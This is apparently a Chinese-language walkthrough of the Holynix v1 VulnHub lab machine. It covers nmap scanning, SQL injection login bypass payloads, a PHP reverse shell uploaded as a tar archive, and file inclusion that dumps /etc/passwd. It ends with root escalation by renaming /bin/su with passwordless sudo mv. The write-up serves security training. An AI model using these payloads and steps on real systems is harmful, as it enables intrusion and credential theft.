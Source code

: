 > **靶机地址：**https://www.vulnhub.com/entry/holynix-v1,20/
>
> **Download (Mirror)**: https://download.vulnhub.com/holynix/holynix-v1.tar.bz2



## nmap扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.17
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-25 02:02 EST
Nmap scan report for localhost (10.10.10.17)
Host is up (0.00082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
```

只有80端口开放

详细信息扫描

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -O -p80 10.10.10.17
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali:
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-25 02:03 EST
Nmap scan report for bogon (10.10.10.17)
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.24 - 2.6.25
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

漏洞脚本扫描

```bash
PORT   STATE SERVICE
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-phpself-xss: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /login.php: Possible admin folder
|   /login/: Login page
|   /home/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting folder
|   /index/: Potentially interesting folder
|   /misc/: Potentially interesting folder
|   /transfer/: Potentially interesting folder
|_  /upload/: Potentially interesting folder
|_http-trace: TRACE is enabled
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-sql-injection:
|   Possible sqli for queries:
|     http://bogon:80/?page=login.php%27%20OR%20sqlspider
|_    http://bogon:80/?page=login.php%27%20OR%20sqlspider
MAC Address: 00:0C:29:BC:05:DE (VMware)
```

因为只有80端口开放，所以攻击面也非常明确！！

## Web渗透

### sql注入

有登录页面，先尝试`sql注入`，在name和password中都输入一个`'`

![image-20240225151027656](imgs/image-20240225151027656.png)

页面sql报错

![image-20240225151459630](imgs/image-20240225151459630.png)

用户名和密码都使用下面的万能语句

```
' or 1=1 #
```

![image-20240225151620400](imgs/image-20240225151620400.png)

成功登录！

找到文件上传的地方

![image-20240225152344623](imgs/image-20240225152344623.png)

使用kali系统里面的反弹shell进行上传

```bash
┌──(kali㉿kali)-[~]
└─$ locate php-reverse-shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php phpshell.php
```

修改IP地址

![image-20240225152152892](imgs/image-20240225152152892.png)

对php进行压缩

```bash
 gzip phpshell.php 
```



结果上传失败

### POST型文件包含

在`Security`中发现类似文件包含，查看源码，有指向的文件

![image-20240225153034141](imgs/image-20240225153034141.png)

试着修改一下，修改完点击`Display FIle`

![image-20240225153137531](imgs/image-20240225153137531.png)

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
```



查看`/etc/shadow`的时候显示权限不够

![image-20240225153244487](imgs/image-20240225153244487.png)

尝试使用sql注入登录另一个用户

```bash
' or username="etenenbaum" #
```

![image-20240225154049633](imgs/image-20240225154049633.png)

重新上传，勾选自动解压`gzip`文件

![image-20240225154321118](imgs/image-20240225154321118.png)

上传成功

![image-20240225154745997](imgs/image-20240225154745997.png)



现在就是要找上传的位置了，因为上传界面提示`Home Directory Uploader`，所以可以判定上传到了家目录

上传后`url`变成了`transfer.php`，利用文件包含查看源码，发现用户`tar`包

![image-20240225154955381](imgs/image-20240225154955381.png)



对上传的压缩包重新打包

```bash
#先解压缩
sudo gunzip phpshell.php.gz
#打包
tar czf phpshell.tar.gz phpshell.php 
```

![image-20240225155312887](imgs/image-20240225155312887.png)



![image-20240225155328664](imgs/image-20240225155328664.png)

访问家目录`http://10.10.10.17/~etenenbaum/`

![image-20240225155442155](imgs/image-20240225155442155.png)



反弹成功

![image-20240225155619430](imgs/image-20240225155619430.png)

获取交互性更好一点的shell

![image-20240225155816192](imgs/image-20240225155816192.png)

### 提权

我们可以免密用`sudo`执行`chown chgrp tar mv`这几个命令。那么**结合mv可以给文件改名的特点**

```bash 
sudo mv /bin/su /bin/tar
#执行tar就相当于执行su
```



![image-20240225160048866](imgs/image-20240225160048866.png)